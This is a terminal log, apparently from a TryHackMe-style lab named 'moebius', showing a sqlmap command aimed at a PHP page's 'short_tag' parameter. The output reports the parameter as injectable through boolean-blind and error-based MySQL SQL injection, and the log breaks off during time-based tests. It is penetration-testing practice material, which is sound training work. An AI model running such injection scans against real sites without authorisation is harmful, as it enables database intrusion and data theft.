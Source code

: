 
┌──(alvan㉿vbox)-[~/THM/moebius]
└─$ sqlmap -u 'http://moebius.thm/album.php?short_tag=smart' -p short_tag --risk 3 --level 5 --threads 10 --batch --dbs
        ___
       __H__                                                                                                        
 ___ ___[']_____ ___ ___  {1.8.5#stable}                                                                            
|_ -| . [)]     | .'| . |                                                                                           
|___|_  [.]_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:48:48 /2025-08-15/

[18:48:49] [INFO] testing connection to the target URL
[18:48:50] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:48:51] [INFO] testing if the target URL content is stable
[18:48:52] [INFO] target URL content is stable
[18:48:53] [INFO] heuristic (basic) test shows that GET parameter 'short_tag' might be injectable (possible DBMS: 'MySQL')                                                                                                              
[18:48:54] [INFO] heuristic (XSS) test shows that GET parameter 'short_tag' might be vulnerable to cross-site scripting (XSS) attacks
[18:48:54] [INFO] testing for SQL injection on GET parameter 'short_tag'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[18:48:54] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:48:56] [WARNING] reflective value(s) found and filtering out
[18:49:00] [INFO] GET parameter 'short_tag' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --not-string="the")
[18:49:00] [INFO] testing 'Generic inline queries'
[18:49:03] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'                                                                                                                 
[18:49:06] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[18:49:07] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[18:49:08] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[18:49:09] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[18:49:10] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[18:49:13] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[18:49:14] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[18:49:14] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:49:16] [INFO] GET parameter 'short_tag' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable                                                                                           
[18:49:16] [INFO] testing 'MySQL inline queries'
[18:49:17] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[18:49:17] [WARNING] time-based comparison requires larger statistical model, please wait............ (done)       
[18:49:37] [CRITICAL] considerable lagging has been detected in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more)
[18:49:39] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[18:49:40] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[18:49:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[18:49:43] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[18:49:44] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[18:49:44] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:49:51] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[18:49:57] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP)'